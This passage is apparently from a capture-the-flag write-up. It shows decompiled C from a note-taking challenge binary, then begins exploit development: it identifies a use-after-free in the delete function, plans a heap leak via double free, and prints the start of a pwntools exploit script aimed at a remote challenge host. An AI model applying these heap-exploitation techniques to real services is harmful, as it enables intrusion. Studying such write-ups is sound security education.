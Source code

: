 ```c
    exit(-1);
  }
  puts("Congratulations!");
  puts("Please choose your gender. [1:boy] [2:girl]");
  __isoc99_scanf(&DAT_555555555621,&local_24);
  if (local_24 == 1) {
    puts("You are a clever boy!");
  }
  else {
    if (local_24 == 2) {
      puts("You are a clever girl!");
    }
    else {
      puts("You are a ???");
    }
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

Now that we have reversed the entire binary , let's get started with hijacking the control flow :).

## EXPLOIT DEVELOPMENT

Well , the bug is clearly evident in the **Delete Note** function which is the infamous **Use After Free**. Hence Heap Leak should be trivial.

### Heap Leak

So we can free the header chunk only and probably double free it too. Hmm, sounds cool for getting our heap leak.

```py
from pwn import *
import sys

HOST = '172.35.29.41'
PORT = 9999

if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./pwn',env = {"LD_PRELOAD" : "./libc.so.6"})

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)

def add(size,note):
    io.sendlineafter("Choice >>","1")
    io.sendlineafter("Size:",str(size))
    io.sendafter("Note:",str(note))

def free(idx):
```